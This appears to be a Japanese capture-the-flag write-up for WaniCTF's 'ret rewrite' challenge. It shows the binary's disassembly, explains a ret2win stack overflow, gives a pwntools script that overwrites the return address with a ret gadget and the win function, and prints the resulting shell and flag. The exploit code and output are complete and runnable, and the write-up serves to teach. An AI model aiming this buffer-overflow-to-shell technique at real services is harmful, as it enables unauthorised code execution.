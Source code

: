 # ret rewrite:PWN:103pts
nc ret.wanictf.org 9005  
- stackの仕組みを学びましょう。  
- 関数の戻りアドレスはstackに積まれます。  
- "congraturation"が出力されてもスタックのアライメントの問題でwin関数のアドレスから少しずらす必要がある場合があります。  
- (echo -e "\x11\x11\x11\x11\x11\x11"; cat) | nc ret.wanictf.org 9005  
- 念のためpwntoolsのサンプルプログラム「pwn05_sample.py」を載せておきました。  

使用ツール例  
- cat  
- [netcat (nc)](https://github.com/wani-hackase/memo-setup-pwn-utils#netcat)  
- echo  
- [pwntools](https://github.com/wani-hackase/memo-setup-pwn-utils#pwntools)  

セキュリティ保護  
- Partial RELocation ReadOnly (RELRO)  
- Stack Smash Protection (SSP)無効  
- No eXecute bit(NX)有効  
- Position Independent Executable (PIE)無効  

[pwn05](pwn05)　　　　[pwn05.c](pwn05.c)　　　　[pwn05_sample.py](pwn05_sample.py)  

# Solution
pwn05が配られる。  
objdumpで中を確認する。  
```bash
$ objdump -D pwn05
~~~
0000000000400837 <win>:
  400837:       55                      push   %rbp
  400838:       48 89 e5                mov    %rsp,%rbp
  40083b:       48 8d 3d 92 02 00 00    lea    0x292(%rip),%rdi        # 400ad4 <_IO_stdin_used+0x4>
  400842:       e8 79 fe ff ff          callq  4006c0 <puts@plt>
  400847:       48 8d 3d 96 02 00 00    lea    0x296(%rip),%rdi        # 400ae4 <_IO_stdin_used+0x14>
  40084e:       e8 ad fe ff ff          callq  400700 <system@plt>
  400853:       bf 00 00 00 00          mov    $0x0,%edi
  400858:       e8 e3 fe ff ff          callq  400740 <exit@plt>

000000000040085d <vuln>:
  40085d:       55                      push   %rbp
  40085e:       48 89 e5                mov    %rsp,%rbp
  400861:       48 83 ec 10             sub    $0x10,%rsp
  400865:       48 8d 3d 80 02 00 00    lea    0x280(%rip),%rdi        # 400aec <_IO_stdin_used+0x1c>
  40086c:       b8 00 00 00 00          mov    $0x0,%eax
  400871:       e8 9a fe ff ff          callq  400710 <printf@plt>
  400876:       48 8d 45 f2             lea    -0xe(%rbp),%rax
  40087a:       ba 00 01 00 00          mov    $0x100,%edx
  40087f:       48 89 c6                mov    %rax,%rsi
  400882:       bf 00 00 00 00          mov    $0x0,%edi
  400887:       e8 a4 fe ff ff          callq  400730 <read@plt>
  40088c:       89 45 fc                mov    %eax,-0x4(%rbp)
  40088f:       8b 45 fc                mov    -0x4(%rbp),%eax
  400892:       83 e8 01                sub    $0x1,%eax
  400895:       48 98                   cltq
  400897:       c6 44 05 f2 00          movb   $0x0,-0xe(%rbp,%rax,1)
  40089c:       48 8d 3d d5 07 20 00    lea    0x2007d5(%rip),%rdi        # 601078 <str_head>
  4008a3:       e8 38 fe ff ff          callq  4006e0 <strlen@plt>
  4008a8:       48 89 c2                mov    %rax,%rdx
  4008ab:       48 8d 35 c6 07 20 00    lea    0x2007c6(%rip),%rsi        # 601078 <str_head>
  4008b2:       bf 00 00 00 00          mov    $0x0,%edi
  4008b7:       e8 14 fe ff ff          callq  4006d0 <write@plt>
  4008bc:       48 8d 45 f2             lea    -0xe(%rbp),%rax
  4008c0:       48 89 c7                mov    %rax,%rdi
  4008c3:       e8 18 fe ff ff          callq  4006e0 <strlen@plt>
  4008c8:       48 89 c2                mov    %rax,%rdx
  4008cb:       48 8d 45 f2             lea    -0xe(%rbp),%rax
  4008cf:       48 89 c6                mov    %rax,%rsi
  4008d2:       bf 00 00 00 00          mov    $0x0,%edi
  4008d7:       e8 f4 fd ff ff          callq  4006d0 <write@plt>
  4008dc:       48 8d 3d 9c 07 20 00    lea    0x20079c(%rip),%rdi        # 60107f <str_tail>
  4008e3:       e8 f8 fd ff ff          callq  4006e0 <strlen@plt>
  4008e8:       48 89 c2                mov    %rax,%rdx
  4008eb:       48 8d 35 8d 07 20 00    lea    0x20078d(%rip),%rsi        # 60107f <str_tail>
  4008f2:       bf 00 00 00 00          mov    $0x0,%edi
  4008f7:       e8 d4 fd ff ff          callq  4006d0 <write@plt>
  4008fc:       48 89 ea                mov    %rbp,%rdx
  4008ff:       48 89 e0                mov    %rsp,%rax
  400902:       48 89 d6                mov    %rdx,%rsi
  400905:       48 89 c7                mov    %rax,%rdi
  400908:       e8 6a 00 00 00          callq  400977 <debug_stack_dump>
  40090d:       90                      nop
  40090e:       c9                      leaveq
  40090f:       c3                      retq

0000000000400910 <main>:
  400910:       55                      push   %rbp
  400911:       48 89 e5                mov    %rsp,%rbp
  400914:       b8 00 00 00 00          mov    $0x0,%eax
  400919:       e8 0c 00 00 00          callq  40092a <init>
  40091e:       b8 00 00 00 00          mov    $0x0,%eax
  400923:       e8 35 ff ff ff          callq  40085d <vuln>
  400928:       eb f4                   jmp    40091e <main+0xe>
~~~
```
ret2winを行えばよい。  
以下のpwnpwn05.pyで行う。  
```python:pwnpwn05.py
from pwn import *

elf = ELF('./pwn05')
io = remote("ret.wanictf.org", 9005)
#io = process(elf.path)
rop = ROP(elf)

win = elf.symbols['win']
ret = (rop.find_gadget(['ret']))[0]

io.readuntil("What's your name?: ")

base = b'A' * 22
payload = base + p64(ret) + p64(win)
io.sendline(payload)
io.interactive()
```
実行する。  
```bash
$ python pwnpwn05.py
[*] '/pwn05'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to ret.wanictf.org on port 9005: Done
[*] Loaded 14 cached gadgets for './pwn05'
[*] Switching to interactive mode
Hello AAAAAAAAAA'!

***start stack dump***
0x7ffdee308980: 0x4141414141418a80 <- rsp
0x7ffdee308988: 0x0000002741414141
0x7ffdee308990: 0x4141414141414141 <- rbp
0x7ffdee308998: 0x0000000000400696 <- return address
0x7ffdee3089a0: 0x0000000000400837
0x7ffdee3089a8: 0x00007efd73ef9b00
0x7ffdee3089b0: 0x0000000000000001
***end stack dump***

congratulation!
$ ls
chall
flag.txt
redir.sh
$ cat flag.txt
FLAG{1earning-how-return-address-w0rks-on-st4ck}
$
[*] Interrupted
```
flagが得られた。  

## FLAG{1earning-how-return-address-w0rks-on-st4ck}